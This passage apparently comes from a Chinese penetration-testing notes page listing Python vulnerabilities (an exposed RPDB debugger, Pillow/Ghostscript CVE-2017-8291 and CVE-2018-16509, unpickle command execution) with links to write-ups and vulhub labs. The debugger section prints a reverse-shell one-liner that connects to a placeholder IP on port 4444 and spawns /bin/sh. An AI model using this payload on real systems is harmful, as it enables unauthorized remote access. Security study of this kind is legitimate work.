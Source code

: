 - 相关文章
    - [浅析常见Debug调试器的安全隐患](https://security.tencent.com/index.php/blog/msg/137)
    - [Python调试之RPDB工具](https://blog.woodcoding.com/python/2019/02/21/python-debug-tools-rpdb/)

- POC | Payload | exp
    ```
    telnet xxx.xxx.xxx.xxx 4444
    1
    w
    !1+1
    !import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
    ```

**Python PIL 远程命令执行漏洞(GhostButt)**
- 描述

    Python 中处理图片的模块 PIL（Pillow），因为其内部调用了 GhostScript 而受到 GhostButt 漏洞（CVE-2017-8291）的影响，造成远程命令执行漏洞。

- 相关文章
    - [Exploiting Python PIL Module Command Execution Vulnerability](http://blog.neargle.com/2017/09/28/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability/)
    - [GhostButt - CVE-2017-8291利用分析](https://paper.seebug.org/310/)

- POC | Payload | exp
    - [Python PIL 远程命令执行漏洞（GhostButt）](https://vulhub.org/#/environments/python/PIL-CVE-2017-8291/) - (未复现成功)
    - [vulhub/python/PIL-CVE-2017-8291/poc.png](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2017-8291/poc.png)

**Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509**
- 描述

     Google Project Zero 的 Tavis Ormandy 在 Ghostscript 中发现了一堆漏洞,其中一个是 CVE-2018-16509，这个漏洞允许利用 v9.24 之前的 Ghostscript 中的 -dSAFER 旁路，通过处理 PostScript 中失败的还原（grestore）来禁用 LockSafetyParams 并避免无效访问，从而执行任意命令。此漏洞可通过库，如 ImageMagick 或带有 Ghotscript 包装器的编程语言中的图像库（本例中的 PIL/Pillow）实现。

- POC | Payload | exp
    - [Python PIL/Pillow Remote Shell Command Execution via Ghostscript CVE-2018-16509](https://vulhub.org/#/environments/python/PIL-CVE-2018-16509/) - (未复现成功)

**Python unpickle 造成任意命令执行漏洞**
- 相关文章
    - [Django 远程命令执行漏洞详解](http://rickgray.me/2015/09/12/django-command-execution-analysis/)
    - [掌阅iReader某站Python漏洞挖掘](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)

- POC | Payload | exp
    - [Python unpickle 造成任意命令执行漏洞](https://vulhub.org/#/environments/python/unpickle/)

---

### ruby

> fofa : app="Ruby"
